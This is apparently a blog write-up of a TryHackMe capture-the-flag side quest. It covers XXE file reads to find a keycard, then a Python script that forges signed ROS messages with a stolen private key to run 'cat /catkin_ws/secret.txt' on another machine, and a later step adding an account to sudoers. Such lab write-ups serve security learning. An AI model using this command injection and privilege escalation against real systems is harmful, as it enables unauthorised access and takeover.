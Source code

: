 * Advent of Cyber Side Quest (Part 2)

5 December 2024

Part /deux/ of the TryHackMe Advent of Cyber Side Quest!  See [[https://0x85.org/sidequest2024-1.html][Part 1]] for context.

*** The Keycard
On the 5th day of the Advent there were people posting in Discord about finding the T2 keycard, so that was a pretty obvious indication that it was available to be found, unless they were trolling.

The main quest challenged involved XXE (XML eXternal Entity) attacks, so it was rather frustrating fishing around the filesystem looking for the keycard.  Eventually I used XXE to return the contents of ~/proc/net/tcp~ which reveals, in a numeric encoding, what's listening on which port.  This showed that something was listening on port 8080, which was interesting because nmap didn't show that port as open from the outside.

The machine was also running phpmyadmin, which I spent a long time trying to pwn, but the only writeable directory that phpmyadmin had access to was outside the webroot.  At long last, some further XXE'ing revealed that there was an Apache2 access log at ~localhost:8080/access.log~ which contained a strange path: ~/k3yZZZZZZZZZ/t2_sm1L3_4nD_w4v3_boyS.png~ which, perhaps obviously, was the keycard.

Running the two yin and yang machines was initially confusing because I'd never done this even before and I seemingly couldn't reach the machines.  ~nmap~ eventually revealed that only ~:21337~ was accessible, and browsing to that I understood:  It was simulating that the servers had been pwned by the Frosty Five characters, and this was the ransomware page.  After rooting the boxes I was later able to determine that the password from the keycard causes the flask app that runs the ransomware page to simply change the firewall rules to allow the box to function "normally".

*** Yin and Yang
This was a really interesting room.  There are two machines to run, Yin and Yang, and each is running a robotics platform called [[https://ros.org/][ROS]] which I had never heard of before this day.  There was some language in the challenge description about how each machine needs the other, so I assumed (correctly, as it turned out) that you'd have to sort of pivot back and forth between the machines.  It took /a lot/ of reading before I finally understood wtf was going on, but the key insights were in each machine under ~/catkin_ws/~ where each machine had a start script.  What was immediately apparent was that each machine was supposed to be sending different data to the other, and each machine was validating/responding to the data differently.

~ROS~ works a little bit like ~mqtt~, in that it's a pub-sub message bus, so you can inspect the bus with ~rostopic~ but the network graph wasn't connected properly.  There needed to be a master node to which both machines would run.  So, it was necessary to do the following:

On yin:
- start ~roscore~, the master server node
- ~sudo /catkin_ws/yin.sh~


On yang:
- establish an ssh tunnel with ~ssh -L 11311:localhost:11311 <yin@yin's IP>~, where 11311 is the pre-determined master node port determined from reading the ROS environment variables.
- ~sudo /catkin_ws/yang.sh~
- ~rostopic /echo messagebus~


That got me yin's private key, which I could then use to write a malicious node, that would forge pings from yin to yang, asking yang to echo the contents of ~secret.txt~ which is the "service shared secret" that yin verifies.  Getting ~secret.txt~ allows us to forge messages from yang back to yin.

#+begin_src python
  #RUN THIS ON YIN

  #!/usr/bin/python3

  import rospy
  import base64
  import codecs
  import os
  from std_msgs.msg import String
  from yin.msg import Comms
  from yin.srv import yangrequest
  import hashlib
  from Cryptodome.Signature import PKCS1_v1_5
  from Cryptodome.PublicKey import RSA
  from Cryptodome.Hash import SHA256

  class Attacker:
      def __init__(self):
        
	  self.messagebus = rospy.Publisher('messagebus', Comms, queue_size=50)

        
	  #Read the message channel private key
	  pwd = b'secret'
	  with open('/home/yin/yin-privkey.pem', 'rb') as f:
	      data = f.read()
	      self.priv_key = RSA.import_key(data,pwd)

	  self.priv_key_str = self.priv_key.export_key().decode()

	  rospy.init_node('attacker')

	  self.prompt_rate = rospy.Rate(0.5)

	  Read the service secret
	  with open('/catkin_ws/secret.txt', 'r') as f:
	      data = f.read()
	      self.secret = data.replace('\n','')


	  # does this need edited??
	  self.service = rospy.Service('svc_yang', yangrequest, self.handle_yang_request)

      def handle_yang_request(self, req):
        
	  response = "Action performed"
	  return response

      def getBase64(self, message):
	  hmac = base64.urlsafe_b64encode(message.timestamp.encode()).decode()
	  hmac += "."
	  hmac += base64.urlsafe_b64encode(message.sender.encode()).decode()
	  hmac += "."
	  hmac += base64.urlsafe_b64encode(message.receiver.encode()).decode()
	  hmac += "."
	  hmac += base64.urlsafe_b64encode(str(message.action).encode()).decode()
	  hmac += "."
	  hmac += base64.urlsafe_b64encode(str(message.actionparams).encode()).decode()
	  hmac += "."
	  hmac += base64.urlsafe_b64encode(message.feedback.encode()).decode()
	  return hmac

      def getSHA(self, hmac):
	  m = hashlib.sha256()
	  m.update(hmac.encode())
	  return str(m.hexdigest())  

      #This function will craft the signature for the message based on the specific system being talked to
      def sign_message(self, message):
	  hmac = self.getBase64(message)
	  hmac = SHA256.new(hmac.encode('utf-8'))
	  signature = PKCS1_v1_5.new(self.priv_key).sign(hmac)
	  sig = base64.b64encode(signature).decode()
	  message.hmac = sig
	  return message

      def craft_ping(self, receiver):
	  message = Comms()
	  message.timestamp = str(rospy.get_time())
	  message.sender = "Yin"
	  message.receiver = "Yang"
	  message.action = 1
	  message.actionparams = ['cat /catkin_ws/secret.txt']
	  #message.actionparams.append(self.priv_key_str)
	  message.feedback = "ACTION"
	  message.hmac = ""
	  return message

      def send_pings(self):
	  # Yang
	  message = self.craft_ping("Yang")
	  message = self.sign_message(message)
	  self.messagebus.publish(message)

      def run_attacker(self):
	  while not rospy.is_shutdown():
	      self.send_pings()
	      self.prompt_rate.sleep()

  if __name__ == '__main__':
      try:
	  attacker = Attacker()
	  attacker.run_attacker()

      except rospy.ROSInterruptException:
	  pass

#+end_src

And with that, we learn that the shared secret is ~thisisasecretvaluethatyouwillneverguess~.  Furthermore we can edit ~message.actionparams~ to list the contents of ~/root~ where we discover the flag, and then we can edit the action params a second time to echo the contents of the flag back to us.

*** A second malicious node
To get the flag off the yin machine, I used the shared secret to write a second malicious node to be run on yang, which performs more or less the same attack, except instead of echoing the flag I added the yin account to sudoers for all commands so I could simply ~cd~ into the directory and read the flag directly.

That was really interesting and fun!  Onto [[https://0x85.org/sidequest2024-3.html][Task 3]]!
